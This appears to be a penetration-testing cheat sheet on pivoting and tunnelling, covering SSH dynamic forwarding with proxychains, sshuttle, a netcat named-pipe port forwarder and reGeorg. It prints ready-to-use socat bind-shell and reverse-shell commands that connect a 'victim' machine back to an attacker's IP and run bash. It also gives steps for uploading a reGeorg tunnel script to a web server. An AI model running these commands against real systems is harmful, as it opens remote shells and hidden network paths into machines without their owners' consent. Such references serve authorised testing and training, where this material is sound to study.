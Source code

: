 # Check if your tunnel is active and running: 

- nc -z localhost port || echo 'no tunnel open'
- netstat -lpnt | grep port | grep ssh
- ps aux | grep ssh
- ss -ntlp

# SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: ssh -D localhost:local port -f -N user@localhost -p Target Port
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: Socks5 127.0.0.1 Local Port
4. Run commands through the tunnel: proxychains command

# SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24
- sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode
- sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS
- Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```